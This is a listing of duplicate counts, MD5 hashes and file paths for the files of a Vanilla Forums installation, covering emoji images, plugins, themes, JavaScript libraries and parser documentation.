      2 99f8c6ce62ee0277e5c9790c299bd28f  ./3/resources/emoji/+1.png
      2 9998c2dd594ff7e57cedd2e248f1fc5f  ./3/plugins/GooglePrettify/js/lang-ml.js
      2 99415b31df1ae6fec601f2ae42efcd5d  ./3/vendor/vanilla/nbbc/doc/src/intro_why.tpl
      2 98d4be10b5f81f545bb2c203b5376fb0  ./3/plugins/EmojiExtender/emoji/yahoo/star.gif
      2 98b1d89bf98483c2fd83d0f5ee970994  ./3/plugins/EmojiExtender/emoji/twitter/no_mouth.png
      2 98747bb10b5d7d55bc9f06a08c41d86c  ./3/vendor/vanilla/nbbc/doc/api_smiley.html
      2 97b37030c72c0d05462ecd6a42229cf8  ./3/js/library/jquery.alphanumeric.js
      2 97a6c488371995ae6e63d9f1626c11b6  ./3/plugins/EmojiExtender/emoji/little/hurrah@2x.png
      2 97446ccf0b0601c1a5850c3410b04a62  ./3/plugins/EmojiExtender/emoji/yahoo/lol.gif
      2 972636cd551a52439222820fec0b3ef3  ./3/plugins/EmojiExtender/emoji/rice/sunglasses.png
      2 96fbf2ee255c72dee5d365fe6c887198  ./3/plugins/EmojiExtender/emoji/little/tongue.png
      2 96cee66e8f94d9af4f0d2cffb423b5f0  ./3/applications/dashboard/js/spoilers.js
      2 96c3e4b9e7ba5b124c221f516ed83bf4  ./3/plugins/EmojiExtender/emoji/twitter/kiss.png
      2 96a92ee1200db18fd510a1ae06b88f17  ./3/plugins/EmojiExtender/emoji/yahoo/heart.gif
      2 9674a5b85ee5a9091714f64e1c1c887a  ./3/applications/dashboard/Gruntfile.js
      2 9602401282c118006172b835e50a04a8  ./3/plugins/Gravatar/icon.png
      2 95e36cc0e4f2a95f5f592d23250214fc  ./3/plugins/EmojiExtender/emoji/yahoo/peace.gif
      2 9587fc17bc173fc57efdc7b0bca6d75c  ./3/plugins/vanillicon/icon.png
      2 94e8526f62cf868c3ecbcee781177ebb  ./3/plugins/EmojiExtender/emoji/yahoo/perturbed.gif
      2 94732cd3a790bc3c7c36f24998353b42  ./3/plugins/ButtonBar/design/images/strike.png
      2 94399c089d8c41b10553ecf7767428e8  ./3/vendor/vanilla/nbbc/doc/usage_wiki.html
      2 94140458971686157890fd9532ccf7b6  ./3/plugins/EmojiExtender/emoji/twitter/relaxed.png
      2 940449afa09e5a059dc9faea8cfef05e  ./3/plugins/EmojiExtender/emoji/yahoo/coffee.gif
      2 93fa1d47b0646d863632cadf10fb8ddf  ./3/resources/emoji/tongue.png
      2 937d6d55866538a8c2ff6b1c942c7c9c  ./3/plugins/IndexPhotos/design/indexphotos.css
      2 9367d2de6b3f1fbdead4dfda44fa510a  ./3/plugins/EmojiExtender/emoji/little/heartbreak@2x.png
      2 9300fbb4b01f22295211d069296d6905  ./3/vendor/vanilla/nbbc/doc/bbc_link.html
      2 92c617a4146a517d8d25fb322906b0e4  ./3/vendor/vanilla/nbbc/doc/api_repl.html
      2 92a6cccdb7972fc3cf9649ab50a02f28  ./3/resources/emoji/rage.png
      2 9286b634da1a383e5146211dad0aafef  ./3/plugins/EmojiExtender/emoji/yahoo/murica.gif
      2 92862d018edf56721a512ce8bbf2c99a  ./3/resources/emoji/hushed.png
      2 92448d86b94cfbdf151978c7898dd3a1  ./3/vendor/vanilla/nbbc/smileys/lookleft.gif
      2 92144eb4a30f9ad51da550a52cbe65f8  ./3/resources/emoji/stuck_out_tongue_closed_eyes.png
      2 91f0c30b2c0b6f28b267218056c9a0ea  ./3/vendor/vanilla/nbbc/doc/api_misc.html
      2 91bae4a0be77d2e0adc625f19cd3c306  ./3/themes/default/screenshot.png
      2 91014c0371d9ad3a48836102c5383945  ./3/plugins/EmojiExtender/emoji/yahoo/smiley.gif
      2 9042d888b8da366eeea97245de514f5b  ./3/library/vendors/markdown/License.md
      2 903e8cdece6d1b4aa189a78b557b0845  ./3/vendor/vanilla/nbbc/doc/src/api.tpl
      2 903ca10764e09c83207ac5a9c19a7b33  ./3/plugins/EmojiExtender/design/.csslintrc
      2 8fe059a0629eb5a2b10bf1adf08e32ff  ./3/resources/sass/_vanillicon.scss
      2 8f868b489794eb38af7402c101864caf  ./3/vendor/vanilla/nbbc/smileys/frown.gif
      2 8f18bcb849e602595dace55ba2990f6f  ./3/applications/dashboard/design/images/ui_sprites.png
      2 8e62df18192a636c8593e0d651d7bf05  ./3/plugins/EmojiExtender/emoji/rice/rage@2x.png
      2 8deae2964c09902f5c08cd7bf008c675  ./3/plugins/EmojiExtender/emoji/little/glasses@2x.png
      2 8db6589e4c1d1fc0864afacd2e99157d  ./3/applications/dashboard/design/images/vanilla-comments-72px.png
      2 8d6a2e546c2f786d19860d962d8f1368  ./3/plugins/EmojiExtender/emoji/little/winky.png
      2 8d4d368efe772861e882756149faf986  ./3/plugins/EmojiExtender/emoji/rice/money.png
      2 8d107f512ff4539ef4fc394acb4cae03  ./3/plugins/EmojiExtender/emoji/little/cry.png
      2 8cb9b307c807f842463cb11c3584fea0  ./3/plugins/EmojiExtender/emoji/twitter/neutral.png
      2 8c5db6256544ddff2bdcf853dd95205d  ./3/applications/dashboard/design/images/welcome-message.png
      2 8c2d489865cad26b38c92924e892abc2  ./3/applications/dashboard/js/profile.js
      2 8c2c1b85500610dcaa51bfb3771f9df5  ./3/plugins/editor/icon.png
      2 8c1d46e78e569bb14f9b01a04c4cb87a  ./3/applications/dashboard/design/jquery.dropdown.css
      2 8bf8995b21151eb84d8094141068d8de  ./3/plugins/ButtonBar/design/images/bold.png
      2 8bf27ff57f739ec8b29a4ed54d1a6829  ./3/plugins/EmojiExtender/emoji/rice/-1.png
      2 89e69b6c7a4f3a7bb849a258d1c31eca  ./3/plugins/EmojiExtender/package.json
      2 89ad3c2424fcdebe8dcc186bfa9504db  ./3/plugins/EmojiExtender/emoji/little/chuffed@2x.png
      2 8985753b368bf0757d7b45995646d4e2  ./3/themes/2011Compatibility/design/screenshot_poppy.png
      2 897b6272fb9b135d6764ba3e85244bbe  ./3/applications/dashboard/design/images/eyes.png
      2 896e9d3608dbce626b91cdb33d30431e  ./3/themes/2011Compatibility/design/custom_bigcity.css
      2 896abe67811457a6f35939d6c755cf9f  ./3/plugins/EmojiExtender/emoji/rice/lol.png
      2 89135abbd12763810378689854959877  ./3/vendor/vanilla/nbbc/CHANGELOG
      2 88fdf62707aa1c9f6dc1d0a8c4ac39c1  ./3/plugins/EmojiExtender/emoji/rice/yum@2x.png
      2 88400867da0c715aaf2dd899031edfb9  ./3/vendor/vanilla/nbbc/smileys/sneaky.gif
      2 87e480d7671b6331945a505ec4e0c234  ./3/plugins/EmojiExtender/emoji/little/surprised.png
      2 872c6837fe4462fa68bfc327586e00b0  ./3/themes/bittersweet/views/default.master.tpl
      2 85b8fb4c30b9ec0a56f1357f51811937  ./3/applications/dashboard/design/images/star_sprite.png
      2 857ef7ee4be34ac4d933118af190fcab  ./3/plugins/ButtonBar/design/images/quote.png
      2 8517ca80a50c21f6d79d5200efe4b1dc  ./3/plugins/EmojiExtender/emoji/rice/angry.png
      2 84cf196711fe7e89b181586765f3c17d  ./3/plugins/GooglePlus/google.svg
      2 84bc744587205be667f098b2ce91481a  ./3/applications/dashboard/design/images/usericon.png
      2 8478e8bf6241eb1e301885c05a39c419  ./3/vendor/composer/installed.json
      2 8451b3a1a1f3de88074cb1dc77254426  ./3/vendor/vanilla/htmlawed/README.md
      2 839154d2524c726f94d78e53ba5493ac  ./3/applications/dashboard/js/search.js
      2 838d410622fa217f99d3ef7e7a1bc1c0  ./3/resources/emoji/confused.png
      2 837f5c8d3f5d422181b18decec328e4e  ./3/applications/dashboard/design/images/vanilla-forums-light-bg-87x40.png
      2 8326dc9bea6aa392855c4ed00660031a  ./3/resources/emoji/wink.png
      2 82dd5d71bde8fd3d63eb5f0efb7d3299  ./3/vendor/vanilla/nbbc/doc/src/usage_how.tpl
      2 82ccd0c02810b353bb1571b27e5981a8  ./3/plugins/EmojiExtender/emoji/little/naughty@2x.png
      2 82c13644ca5c5501649687cbd0ba27c5  ./3/vendor/vanilla/nbbc/doc/src/api_rule.tpl
      2 824c19ea4ac02b1b418551afd616dab3  ./3/vendor/vanilla/nbbc/doc/src/bbc_repl.tpl
      2 81baf7999fd7cff3a642ba83b1129c67  ./3/plugins/EmojiExtender/emoji/twitter/unamused.png
      2 816ce1be3577ae2322bdb1c180d932a0  ./3/applications/dashboard/design/images/bubble-arrow.png
      2 813025137713b86c42dd1bf12cdda967  ./3/plugins/EmojiExtender/emoji/twitter/wink.png
      2 8124ea9a3ecd028bdb7027bbde87fd8e  ./3/plugins/EmojiExtender/emoji/twitter/grin.png
      2 812113f8fe0e680781ce4881fbbc2044  ./3/plugins/editor/js/jquery.fileupload-validate.js
      2 80c622a7905272c94267114f889e6f42  ./3/vendor/vanilla/nbbc/doc/app_rule.html
      2 80a7605d1a603109bd2bbeda4efe1a21  ./3/applications/dashboard/views/email/email-basic.tpl
      2 804b2b4d1859c0005aab8bafb42c6c49  ./3/plugins/EmojiExtender/emoji/little/no_mouth@2x.png
      2 803c72c08ce04294e4e4d9739d4c2bb2  ./3/resources/emoji/sweat.png
      2 8033b9adfb51b5a5db5503d17ad87c56  ./3/plugins/EmojiExtender/emoji/yahoo/hushed.gif
      2 8003bc1a97f928b5e41c7dc560dab71b  ./3/plugins/Facebook/facebook.svg
      2 7ffd05d27dc94b0846c4bcaa52ac53c8  ./3/plugins/EmojiExtender/emoji/rice/innocent@2x.png
      2 7fd899e631d60484f77673d3b7fd0957  ./3/applications/dashboard/design/images/logo_footer.png
      2 7fcb2a7cb810b9a0fc800796e3b04c93  ./3/plugins/EmojiExtender/emoji/little/little-icon.png
      2 7f851fa16e3666ff38283afcbe8036f0  ./3/vendor/vanilla/nbbc/doc/api_rule.html
      2 7f848ce64a560ae1b89024d70ccf883e  ./3/vendor/vanilla/htmlawed/LICENSE.md
      2 7f53f119a77e9ab3fbffb6a216c89308  ./3/resources/emoji/anguished.png
      2 7f44b4b251ff295a771a213056ec9791  ./3/applications/dashboard/design/images/progress_sm.gif
      2 7ec60a44369d681bf558a0cf5b7db094  ./3/plugins/Quotes/css/cleditor.css
      2 7e792fdb5ca97f865c09afcef4181626  ./3/vendor/vanilla/nbbc/doc/shorttoc.html
      2 7dd5d08d8d108676fc2b25983e68be1a  ./3/js/easyXDM/easyXDM.min.js
      2 7dcb659d99f492974168b3b65b0b78d9  ./3/plugins/EmojiExtender/emoji/yahoo/smirk.gif
      2 7dbdbc79c1e622bb4de9d03040e7db09  ./3/js/library/nestedSortable/jquery.mjs.nestedSortable.js
      2 7daaaed79b994cc03826b2885c0b4fbb  ./3/plugins/GooglePrettify/js/lang-pascal.js
      2 7c97804ba7210db06d8591dc0b0ce9dd  ./3/js/vanilla.embed.local.js
      2 7b77c5e6a9025414cbcf4c4404995f0f  ./3/plugins/EmojiExtender/emoji/rice/frown.png
      2 7a75bd2876663f0c2a0de572fa161dca  ./3/plugins/EmojiExtender/emoji/little/smile@2x.png
      2 7a2063d28dc730907daff52eb1ef6825  ./3/plugins/EmojiExtender/emoji/yahoo/nuh_uh.gif
      2 7a1b7e42c3b44648a1899dafe56587fe  ./3/plugins/GooglePrettify/js/lang-matlab.js
      2 7a1a200102ac782384dee4584f539e31  ./3/plugins/EmojiExtender/emoji/little/blush.png
      2 79dd7e432a25eeafd2c7e0d65a2b2f05  ./3/vendor/vanilla/nbbc/doc/app_example.html
      2 79db27886df61d9619a4f28b9b3a210a  ./3/plugins/editor/js/rangy.js
      2 7990ca6baae04a518f9c4faf7c1237b6  ./3/plugins/editor/design/editor.css.map
      2 798f59f9f005a5460f9fb4e53323e792  ./3/applications/dashboard/design/images/jcrop.gif
      2 798aaf8e51a7b9d576eaf5573de08a7f  ./3/plugins/EmojiExtender/emoji/yahoo/hang_loose.gif
      2 797fd30673631e9782de4747e518cef2  ./3/js/embed.js
      2 793d7b76993081db8a5de0d2e8c9ed46  ./3/vendor/vanilla/nbbc/smileys/anime.gif
      2 78c559b422c3154a93cb2f4cd837abd0  ./3/js/library/jquery.delay.js
      2 784f8401f3158a8e311320d85d2b0709  ./3/plugins/EmojiExtender/emoji/yahoo/yahoo-icon.png
      2 78076cf4ab854af8f380fb71b283478e  ./3/plugins/GooglePrettify/js/lang-r.js
      2 77e6c3e3c3d72603b4f9a4da51ee831a  ./3/plugins/EmojiExtender/emoji/yahoo/grin.gif
      2 77cb4d75de4ca52dc60da5e80238b2d9  ./3/plugins/EmojiExtender/emoji/little/+1@2x.png
      2 777910f252e2a44d34387fc9a6d2944c  ./3/plugins/EmojiExtender/scss/settings.scss
      2 7744eb854c648dfcbcef06f5c1d36ac2  ./3/plugins/GooglePrettify/js/lang-llvm.js
      2 771c99edd3c43d74e30fb2cd5abaed03  ./3/plugins/EmojiExtender/emoji/little/glasses.png
      2 771bb8e0e7acbdfad8297699e66cee07  ./3/plugins/EmojiExtender/emoji/twitter/heartbreak.png
      2 77084e7779c9112c8299a4f5b1e340bc  ./3/plugins/Facebook/design/help-newapp.png
      2 7650aa19154d26cc4e30c4cbdbead0fb  ./3/applications/dashboard/design/images/usericon.gif
      2 764ed152e1ba349754d1f7efb78ab971  ./3/plugins/EmojiExtender/.yo-rc.json
      2 7649094c88d9baa515451afaa5b111fa  ./3/plugins/EmojiExtender/emoji/twitter/pensive.png
      2 7616e69f728908c94aadc315ccb3f4eb  ./3/plugins/EmojiExtender/emoji/twitter/-1.png
      2 75e941aeff168bb21d2a42e607ec1be4  ./3/applications/dashboard/scss/_utilities.scss
      2 75db059e93dcd444e1b33ba2ee0c0b55  ./3/resources/fonts/vanillicon/vanillicon.ttf
      2 75c5be6b325c7cce780077faa9173c04  ./3/js/vanilla.embed.js
      2 7583dabc0501d29d4ad9fa3bf13a0410  ./3/applications/dashboard/README.md
      2 7535b9b2e457a49191685846b422a574  ./3/vendor/vanilla/nbbc/doc/src/bbc_align.tpl
      2 75306d1812389df0553f8f4e0d3e17c6  ./3/plugins/editor/scss/wysiwyg.scss
      2 7523531ee9501cf2b289d66dc292513d  ./3/plugins/EmojiExtender/emoji/rice/rice-icon.png
      2 74e611d891e3c11ece5ff98ecc46dfe1  ./3/vendor/vanilla/nbbc/smileys/neutral.gif
      2 74b74050d1a254bd9d0303aef66dcbce  ./3/plugins/editor/README.md
      2 74402c893e685940d591e93f7c3c9804  ./3/js/library/jquery.autocomplete.js
      2 7417676cbf64bad9d4b43e2ae91dfde3  ./3/plugins/EmojiExtender/emoji/rice/scream@2x.png
      2 73e01b4ff3d513f325abb04ec7f19ed5  ./3/plugins/editor/js/editor.js
      2 73de8a746497c39e725cb5d6acf7c1d0  ./3/plugins/EmojiExtender/emoji/little/fearful.png
      2 73d8006b547817736253f01ae1bca5b5  ./3/plugins/EmojiExtender/emoji/little/scream.png
      2 73ac2c0005f6de9b2f9216c1db355b81  ./3/plugins/GooglePrettify/js/lang-vb.js
      2 73813c0b9f1df3475c931dba008e3479  ./3/plugins/EmojiExtender/emoji/yahoo/kiss.gif
      2 733649c502a530cd344f706b165eaf77  ./3/vendor/vanilla/nbbc/.editorconfig
      2 72dc37fa6ddf17fad93be31cc8b46422  ./3/plugins/EmojiExtender/emoji/rice/sick.png
      2 729c2e650c5093d5a4876f17bebff73b  ./3/applications/dashboard/js/previewtheme.js
      2 72720fc6209b4c381b92cd5588606bd2  ./3/plugins/ButtonBar/design/buttonbar.css
      2 72396f2c7576fff0958d3b62d123e894  ./3/js/global.js
      2 721c2a5aedf78cea68158bf281e8e90e  ./3/resources/emoji/kissing_wink.png
      2 721c2a5aedf78cea68158bf281e8e90e  ./3/resources/emoji/kissing_heart.png
      2 71f5ec406f4885ecef0990585999d4dc  ./3/plugins/editor/bower.json
      2 71f26c3e72107800dd23e77eedca0f0e  ./3/plugins/EmojiExtender/emoji/rice/unamused@2x.png
      2 71e4ebeb92ce88c3c4d0d9bb40d4ce33  ./3/applications/dashboard/design/magnific-popup.css
      2 71a7ed14bccd046e5b53238c0e362f38  ./3/js/library/jquery.gardenhandleajaxform.js
      2 7153a59a59c9515d9b8df8640543db28  ./3/vendor/vanilla/nbbc/doc/intro_why.html
      2 71529f10dea98ba5a2eb1b43eb4927ce  ./3/plugins/EmojiExtender/emoji/little/waving@2x.png
      2 70d99327d35044fb261600d2de4329c7  ./3/js/library/nestedSortable.3.4/jquery-ui-1.81.custom.min.js
      2 70694a609789a47282dbae580b04c5e5  ./3/vendor/vanilla/nbbc/smileys/bigwink.gif
      2 70352ef112b5b39bae07ce93deeb69a1  ./3/js/embed_local.js
      2 6fe7a105552bf721730f25a88ade58fc  ./3/plugins/EmojiExtender/emoji/twitter/stuck_out_tongue_winking_eye.png
      2 6fac396721d5ebf058c563bf7f1cce4d  ./3/plugins/EmojiExtender/emoji/yahoo/pensive.gif
      2 6f895b38cc101c3c4228163c73657fd0  ./3/plugins/GettingStarted/design/getting-started.css
      2 6f6ee0e982b80ff759334b74c48aabdf  ./3/js/library/jquery-migrate-1.2.js
      2 6f5020c0986299ab32f124fd67651b96  ./3/themes/default/design/favicon.png
      2 6f5020c0986299ab32f124fd67651b96  ./3/themes/2011Compatibility/design/favicon.png
      2 6f5020c0986299ab32f124fd67651b96  ./3/applications/dashboard/design/images/icon.png
      2 6ebbb89d36acd4ff3fcc17f5ca86432a  ./3/plugins/EmojiExtender/emoji/little/bawling.png
      2 6ea5deeaeef5e589618bb019b34ac2cb  ./3/applications/dashboard/design/error.css
      2 6e8ae010e92fc6cddbde6fc83b78db86  ./3/vendor/vanilla/nbbc/doc/api_core.html
      2 6e7b2765b5857c8905e306da7bb68f35  ./3/resources/emoji/flushed.png
      2 6e53efb9a380a3a6a26f3e008e443ef8  ./3/applications/dashboard/design/images/vanilla_logo.png
      2 6dae17c4606e5182403c8d4edf10d32a  ./3/resources/emoji/joy.png
      2 6d19504c757e9e7c17f29fef02a54599  ./3/applications/dashboard/design/images/rss.gif
      2 6cad0a45ea10cf7973b576497e1dc7c1  ./3/plugins/EmojiExtender/emoji/yahoo/sleepy.gif
      2 6c8aea91c080cc890f310eda16b314f9  ./3/themes/2011Compatibility/design/custom_lemonsea.css
      2 6c5d8bdba17cc12a7592abeea7ecb8f1  ./3/themes/bittersweet/design/custom.css
      2 6c43316d1371c796c9615c246eadbddf  ./3/plugins/EmojiExtender/emoji/yahoo/liar.gif
      2 6bf93baf8f786d2edc2f3e7aab9d483f  ./3/resources/emoji/relieved.png
      2 6bb0f200663af1f3b2665e618c46bf7e  ./3/plugins/EmojiExtender/emoji/yahoo/heartbreak.gif
      2 6ba1750464e79b93139643152e8733f0  ./3/vendor/vanilla/nbbc/doc/src/usage_enh.tpl
      2 6b573790c5fa865647462d3984550d6e  ./3/plugins/Quotes/icon.png
      2 6a9c3fcc814c6002be234d2315e58c29  ./3/resources/emoji/no_mouth.png
      2 6a675ed212cbded3c23343e01fb99554  ./3/vendor/vanilla/nbbc/smileys/lookright.gif
      2 69be67a826a4d8f89e7df2b9476cd724  ./3/plugins/EmojiExtender/emoji/rice/preview.html
      2 68c3dc65b3d3e636f923f2b8c12ab5f9  ./3/plugins/Tagging/js/tagadmin.js
      2 68bd61638a5d57a870fbf1c78a926530  ./3/js/easyXDM/easyXDM.Widgets.min.js
      2 68b37b46c84bdfdf90cc8a41fd59f877  ./3/plugins/EmojiExtender/emoji/twitter/kissing_smiling_eyes.png
      2 68b329da9893e34099c7d8ad5cb9c940  ./3/plugins/EmojiExtender/js/src/main.js
      2 68b329da9893e34099c7d8ad5cb9c940  ./3/plugins/EmojiExtender/js/custom.js
      2 68b329da9893e34099c7d8ad5cb9c940  ./3/applications/dashboard/js/src/main.js
      2 68ad62c64cc6c620126241fd429e68fe  ./3/library/vendors/smarty/COPYING.lib
      2 67ce20e582b77cc6e882c2935a27ec59  ./3/resources/emoji/grey_question.png
      2 67aad5792741ce706dd23c10c24e55aa  ./3/applications/dashboard/design/images/plugin-icon.png
      2 676185b516e0de5b8d9de8bdfcf48982  ./3/plugins/EmojiExtender/emoji/rice/sick@2x.png
      2 66b993d6f70a519edfad40516c0215ed  ./3/vendor/vanilla/nbbc/doc/toc.html
      2 668de7f7d6a814a547d4fd122b7a7b4d  ./3/plugins/EmojiExtender/emoji/little/confused.png
      2 6678b25eb9e8fedfa9a117e9d255a11a  ./3/plugins/IndexPhotos/icon.png
      2 66761fcd8271e46f3d3323283dc9c0a7  ./3/plugins/EmojiExtender/emoji/yahoo/jack_o_lantern.gif
      2 6658c89c137ba01ab5cf30ea8e9c4c65  ./3/vendor/vanilla/nbbc/doc/bbc_text.html
      2 662cd6c7043311763599326e9c7c22e7  ./3/plugins/EmojiExtender/emoji/little/proud.png
      2 6612041274d1b079964c76c6b4362734  ./3/plugins/EmojiExtender/emoji/yahoo/unamused.gif
      2 653ec6a165d3722b88faa7e1ee4ba376  ./3/vendor/vanilla/nbbc/doc/api_wiki.html
      2 6511638831caf9c498887513d02b6f08  ./3/resources/sass/_vanillicon-mixins.scss
      2 64ffdf1375320f5f8943e64e280c3cca  ./3/plugins/EmojiExtender/emoji/rice/kiss.png
      2 64fc98ba4c2a2ee8a86f110e16f67fd9  ./3/vendor/vanilla/nbbc/doc/src/usage_call.tpl
      2 648a4f303747bb73ef1c2c6f1704dc2f  ./3/applications/dashboard/js/routes.js
      2 634f154cb1065e7a1389cbbf86421db8  ./3/plugins/VanillaStats/design/images/safari.png
      2 634d3ad1fb0cdb754c374e3fb2d54e71  ./3/plugins/EmojiExtender/emoji/little/no_mouth.png
      2 62ce93313cdcbcca892342b7b98ac5ba  ./3/plugins/VanillaStats/design/images/firefox.png
      2 629dbdb681b44e5f66193559e81a2158  ./3/plugins/PrivateCommunity/LICENSE.md
      2 629c9bf651a1c37c2d9815b06b128f5d  ./3/plugins/EmojiExtender/emoji/rice/innocent.png
      2 628072e7212db1e8cdacb22b21752cda  ./3/js/library/jquery.js
      2 627728c06ae2b93f8f5005f487d437d0  ./3/vendor/vanilla/nbbc/doc/src/intro_license.tpl
      2 6262936a835be598f39dafc461f1d678  ./3/vendor/vanilla/nbbc/doc/app_internals.html
      2 62295de22adfd82a875d10561a1980e0  ./3/plugins/EmojiExtender/emoji/twitter/joy.png
      2 62146714693a48330edc5e3c6260f9a4  ./3/plugins/EmojiExtender/emoji/twitter/persevere.png
      2 61eaa2d1737eed8b609c9e60157f6514  ./3/plugins/EmojiExtender/emoji/yahoo/look_at_the_time.gif
      2 619c91708d0d245e55d8bba7a217fda9  ./3/applications/dashboard/design/images/sprites-14-ffffff.png
      2 618dd5d78551dbee239b44108437d52b  ./3/vendor/vanilla/nbbc/smileys/cool.gif
      2 61692c7cac6dd8a5c2ce10bd7388ef50  ./3/plugins/EmojiExtender/emoji/twitter/dissapointed.png
      2 5fc181b99bad6b2707747aa49da71680  ./3/plugins/GooglePrettify/js/lang-vhdl.js
      2 5f634d77a74e559217498febb7e30cc4  ./3/resources/emoji/neutral.png
      2 5f1ab1d3a641cd9df0eaaddebf9785ca  ./3/plugins/EmojiExtender/emoji/rice/icon.png
      2 5e52a6b7a39940ccab4192cff8f63db7  ./3/applications/dashboard/views/setup.master
      2 5ceea8c57121839dc7bf29ff6f844ca9  ./3/vendor/vanilla/nbbc/doc/usage_html.html
      2 5c29ef98be11544a192b671c1e0bcded  ./3/plugins/VanillaStats/js/picker.js
      2 5b46ad86ba11dce772759d90cf6bfa92  ./3/plugins/EmojiExtender/emoji/twitter/frown.png
      2 5b45f60aa9a44456a76a1f554a586026  ./3/plugins/EmojiExtender/emoji/little/sunglasses.png
      2 5b006981f1a7b62363978164b31902b7  ./3/plugins/EmojiExtender/emoji/little/dizzy.png
      2 59db65d84683a8971a121831b6c2072a  ./3/plugins/EmojiExtender/emoji/little/bleep_bloop.png
      2 59d42e544ca7df0797a26f3a65f4e213  ./3/themes/mobile/design/custom.css
      2 59bbf60b96ecd709d2ab12b7acd41276  ./3/plugins/GooglePrettify/js/lang-lua.js
      2 599615bb598968500ae039c1442ec935  ./3/plugins/EmojiExtender/emoji/rice/naughty.png
      2 592a3c8f2771810993626d639791b64d  ./3/vendor/vanilla/nbbc/tools/merge.pl
      2 58d34eaa840ca6f8ee03439253b76b38  ./3/plugins/EmojiExtender/emoji/yahoo/naughty.gif
      2 57d08dfaa4ad5ca469949a6008a35b78  ./3/applications/vanilla/js/ReadMe.txt
      2 56fcc0b1f49a0075cfddc5eddfd80a06  ./3/vendor/vanilla/nbbc/doc/nbbc-small.png
      2 56f8e6f6f4553ff60000b41ba562731b  ./3/plugins/EmojiExtender/emoji/little/open_mouth.png
      2 56ede7824376f09f8eeddc96711d0817  ./3/vendor/vanilla/nbbc/smileys/laugh.gif
      2 56eb53faf7398c0c01fdc07aef6188a3  ./3/vendor/vanilla/nbbc/doc/app_tagparams.html
      2 56db0e51e0e7cc1ea99f85b2e9b15a19  ./3/plugins/GooglePrettify/js/lang-tcl.js
      2 561bb965e8b01eea2ea2bf2a02161b6d  ./3/js/library/jquery.gardencheckcolumn.js
      2 5580c0a6d9eef139c17a161ec7f208b1  ./3/js/library/jquery-ui-1.87.custom.min.js
      2 5551715e20bc41379beb6338186b61e7  ./3/plugins/EmojiExtender/emoji/rice/tongue.png
      2 54be639d506ae9de86e46e92d0cce4b8  ./3/themes/EmbedFriendly/views/default.master.tpl
      2 53f3a201a56e1be15cc3646689a940f1  ./3/plugins/Gravatar/default.png
      2 53c3fdd6b29035b308077e2e1a636dcb  ./3/plugins/VanillaStats/design/picker.css
      2 5367c316b9ba44e2f1efe6fb7b2aaffb  ./3/plugins/EmojiExtender/emoji/yahoo/tired_face.gif
      2 53245ab9400c19974704375906699a8b  ./3/plugins/EmojiExtender/emoji/little/scream@2x.png
      2 52ce74e11707de117474da1d3571cb19  ./3/resources/emoji/dizzy.png
      2 52c2a04b9acaf44b05f7b93431df5e9d  ./3/plugins/EmojiExtender/emoji/little/waving.png
      2 52bd32fc2b3150025e06e5ec85850bad  ./3/library/vendors/oauth/OAuthTests.xml
      2 51e504621aa8d82277de3b2bbd84b7b5  ./3/plugins/EmojiExtender/emoji/twitter/sleepy.png
      2 518a1a4ceae84ad1fb703a5c149bb9b0  ./3/applications/dashboard/design/images/star.png
      2 5186433108f84edb3164044281e06809  ./3/applications/vanilla/js/autosave.js
      2 5134dd7f39395b3713d1e584504c5dfb  ./3/vendor/vanilla/nbbc/doc/src/api_root.tpl
      2 510b9415fadbb8ada2715da9e2c2dd5c  ./3/plugins/EmojiExtender/emoji/rice/kiss@2x.png
      2 503eb368f00c56ddd410ffce76ac9241  ./3/applications/conversations/js/conversations.js
      2 501ea5eca462a7b56a907c06e76dfce3  ./3/vendor/vanilla/htmlawed/composer.json
      2 4fe166087aa7ee68bb1d4e1d7772dd93  ./3/vendor/vanilla/nbbc/doc/src/api_behv.tpl
      2 4fdd682dfae76063c35efa1834a9e8ab  ./3/vendor/vanilla/nbbc/tests/phpunit.xml.dist
      2 4f448fe41eeda3a0bf911a9d4feafb9e  ./3/applications/dashboard/design/admin.css
      2 4f2a7123b6b87de67f9fd4b43b5a471c  ./3/plugins/VanillaStats/design/images/chrome.png
      2 4eec170946c77175caa7e09284dd8ae6  ./3/applications/vanilla/js/settings.js
      2 4ee1063431e44d48f59f262052a5242d  ./3/plugins/EmojiExtender/emoji/rice/fearful@2x.png
      2 4ed41abb214197b60eba910e6a561bfb  ./3/vendor/vanilla/nbbc/doc/src/intro_whynbbc.tpl
      2 4ecf368498da86b4ec68be3b2fb66872  ./3/vendor/vanilla/nbbc/smileys/tongue.gif
      2 4ec839d58b7a75bee28222dd0b186214  ./3/resources/emoji/yum.png
      2 4df6271a0c479c375ef604da552be478  ./3/vendor/vanilla/nbbc/doc/usage_add.html
      2 4dd693b49d44dea9a767e6d2e35c942f  ./3/applications/dashboard/design/images/arrow.png
      2 4da6e5d0afe848df184571c403922f7c  ./3/plugins/GooglePrettify/js/lang-clj.js
      2 4d68c1cd02752e621f3cae7c8f472a69  ./3/plugins/EmojiExtender/emoji/yahoo/glasses.gif
      2 4d1a973bed0a8ca9c0d9d5b1752f5fd9  ./3/plugins/EmojiExtender/bower.json
      2 4cdf4e0e3635cc78dcd8c059f2fda948  ./3/js/library/jquery.appear.js
      2 4cafdbbee988c570a0edd4909b5e32d8  ./3/applications/dashboard/scss/legacy/_admin.scss
      2 4c01b086ec485330cffa1387086909a4  ./3/plugins/GooglePrettify/js/lang-sql.js
      2 4ae89b9779517c99b605159d1b610578  ./3/plugins/EmojiExtender/emoji/yahoo/money.gif
      2 4ac5c791dbd369aa623264f453205a3d  ./3/plugins/EmojiExtender/emoji/yahoo/how_interesting.gif
      2 4a9d11d2edf093b266dbd64e32f8b34a  ./3/plugins/EmojiExtender/emoji/yahoo/sick.gif
      2 4a7b385f7a94f83d27a02610106141e8  ./3/plugins/EmojiExtender/emoji/twitter/open_mouth.png
      2 4a6c231eda443047dc9ed6be26a53b81  ./3/vendor/vanilla/nbbc/smileys/angry.gif
      2 4a1b49c477f78c6c59f48c326aeb3c1a  ./3/applications/dashboard/views/rss.master
      2 4a16bc4f449c85cb25297c916c2c80ed  ./3/applications/dashboard/design/style.css.map
      2 49acee6b51704fe9fbdc767c028c5711  ./3/plugins/VanillaStats/js/vanillastats.js
      2 4978934f6f6a6875b5b329a53d544dc7  ./3/plugins/Tagging/js/tagging.js
      2 4963a3c42170ae9c1ef56bb2f46d2f9d  ./3/resources/emoji/smile.png
      2 491aef7625090d7bbdd52e625b3db01c  ./3/vendor/vanilla/nbbc/composer.json
      2 490b8c6c22eedd48fd7a4df7188b4d7a  ./3/plugins/EmojiExtender/emoji/yahoo/grimacing.gif
      2 48fcd3d6402c8ff0de355184bdb442f2  ./3/plugins/EmojiExtender/emoji/little/heart@2x.png
